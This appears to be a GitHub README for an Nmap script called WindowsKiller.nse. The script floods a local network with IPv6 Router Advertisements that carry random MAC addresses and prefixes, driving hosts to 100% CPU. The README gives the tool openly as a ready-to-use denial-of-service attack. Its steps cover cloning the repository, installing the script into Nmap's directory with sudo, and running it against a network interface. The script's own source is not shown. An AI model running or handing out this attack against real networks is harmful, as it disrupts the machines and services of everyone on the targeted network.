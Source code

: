 # IPv6-Router-Advertisement-DoS

Generates a flood of Router Advertisements (RA) with random source MAC addresses and IPv6 prefixes. Computers, which have stateless autoconfiguration enabled by default (every major OS), will start to compute IPv6 suffix and update their routing table to reflect the accepted announcement. This will cause 100% CPU usage on Windows and platforms, preventing to process other application requests.

# Install

git clone https://github.com/Kleptocratic/IPv6-Router-Advertisement-DoS.git

# Check for location of other NSE scripts

find / -name '*.nse'

# Move downloaded files into directory

sudo mv WindowsKiller.nse /usr/local/share/nmap/scripts/

# Execute script

nmap -6 --script WindowsKiller.nse --script-args 'interface=<interface>'
